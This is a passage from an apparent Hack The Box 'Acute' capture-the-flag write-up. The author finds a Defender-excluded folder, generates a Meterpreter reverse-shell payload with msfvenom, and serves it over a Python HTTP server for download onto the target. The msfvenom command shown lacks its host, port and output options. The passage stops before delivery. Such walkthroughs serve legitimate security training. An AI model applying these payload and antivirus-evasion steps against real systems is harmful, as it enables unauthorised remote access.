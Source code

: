 ![](<../../.gitbook/assets/image (2) (1) (1).png>)

After viewing the results, there is a .ini file in C:\Utils which I know is hidden.

Browsing to C:\Utils and running 'Dir -Force' shows me of any other hidden files but there is only 'desktop.ini'

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Using Get-content I can view the data: "Directory for Testing Files without Defender" - So I know that this PC is running Defender but also has Whitelisted this directory for files to run.

Referring back to my notes, I still need to try and view what is on the RDP/Console session for User1. The best method I can think of at the time is to use Meterpreter.

From \~/HTB/Acute, I run the following:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp
```

This generates a reverse shell payload, named reverse.exe in mymy Acute Directory. Now I needed to get this payload onto the PC.

On my VM I run my http server from my Acute diectory.

```
python -m http.server 9090
```

* **http.server:** This starts running a webserver on my Kali VM
* **9090:** This is the port that is opened. **from Whatever directory I run the http.server, the contents will be published over port 9090**

![](<../../.gitbook/assets/image (1) (1) (1).png>)

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)
